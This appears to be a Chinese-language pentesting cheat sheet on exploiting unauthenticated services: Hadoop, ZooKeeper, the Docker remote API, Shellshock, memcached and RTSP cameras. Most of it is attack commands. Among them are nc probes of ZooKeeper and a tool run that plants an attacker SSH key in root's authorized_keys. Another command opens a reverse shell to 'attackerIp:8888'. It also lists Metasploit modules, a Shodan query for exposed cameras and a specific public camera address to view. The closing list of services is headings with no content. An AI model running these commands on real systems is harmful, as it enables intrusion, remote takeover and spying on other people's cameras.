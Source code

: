 **Hadoop 未授权访问**

访问ip的xxx端口 康康有无密码或者弱口令
```
    http://<ip>:50070
    http://<ip>:50070/dfshealth.jsp
    http://<ip>:50070/logs/
```


**ZooKeeper 未授权访问**

- [搭建环境]

```
wget https://mirrors.tuna.tsinghua.edu.cn/apache/zookeeper/zookeeper-3.4.14/zookeeper-3.4.14.tar.gz
tar -xzvf zookeeper-3.4.14.tar.gz 
cd zookeeper-3.4.14/conf
mv zoo_sample.cfg zoo.cfg
../bin/zkServer.sh start # 启动
```


开NC监听端口
```
    echo envi|nc <ip> 2181 # 远程获取该服务器的环境
    echo dump |ncat <ip> 2181 # 列出未完成的会话和临时节点
    echo reqs |ncat <ip> 2181 # 列出未完成的请求
    echo ruok |ncat <ip> 2181 # 测试服务器是否运行在非错误状态
    echo stat |ncat <ip> 2181 # 列出关于性能和连接的客户端的统计信息
```




**docker API未授权访问**

- [docker api环境设置](https://docs.docker.com/swarm/install-manual/)



1. 编辑/etc/docker/daemon.json。如果它不存在，则创建它。假设文件为空，其内容应为：

```
{
  "hosts": ["tcp://0.0.0.0:2375", "unix:///var/run/docker.sock"]
}
```

2. 启动或重新启动Docker，以使更改生效。
```
$ sudo systemctl start docker

```

3. 授予ec2-userroot特权：

```
$ sudo usermod -aG docker ec2-user
```
4. 注销主机。








- `http://172.23.169.196:2375/version`

使用软件 -- docker_remote_api_exp
1. ./docker_remote_api_exp -type=check -target=172.23.169.196:2375，获取服务器信息，如操作系统，机器名，remote api版本以及docker的安装位置等
1. ./docker_remote_api_exp -type=root -target=ip:2375 -version=1.12.3，在/root/.ssh/authorized_keys写入攻击者的ssh公钥
1. ./docker_remote_api_exp -type=shell -target=ip:2375 -version=1.12.3 -reverse=attackerIp:8888，给攻击者反弹一个shell







**GNU Bash 远程代码执行漏洞 (CVE-2014-6271)**

```
use exploit/linux/http/ipfire_bashbug_exec #应该可行
set rhost


use exploit/multi/http/cups_bash_env_exec
use exploit/unix/dhcp/bash_environment
```



**memcached 数据库未授权访问**   --可用于ddos

`telnet <ip> 11211`
 set aaa 0 10 9  # 存个 aaa 值
 memcached
 get aaa # 读这个值




**RTSP 未授权访问漏洞**

流媒体摄像头访问漏洞。

在shadon搜索 `port:554 has_screenshot:true` 

我们可以看到有大量的摄像头存在此类安全问题。



```
  rtsp地址格式为：rtsp://[username]:[password]@[ip]:[port]/[codec]/[channel]/[subtype]/av_stream
```

```
rtsp://@178.200.246.42:554   //vlc中网络视频
```
可查看摄像头 连接是否需要提供账号密码



Jenkins 未授权访问漏洞
JBOSS 未授权访问漏洞
VNC 未授权访问漏洞
Rsync 未授权访问漏洞
Atlassian Crowd 未授权访问漏洞
CouchDB 未授权访问漏洞
Elasticsearch 未授权访问漏洞
Jupyter Notebook 未授权访问漏洞
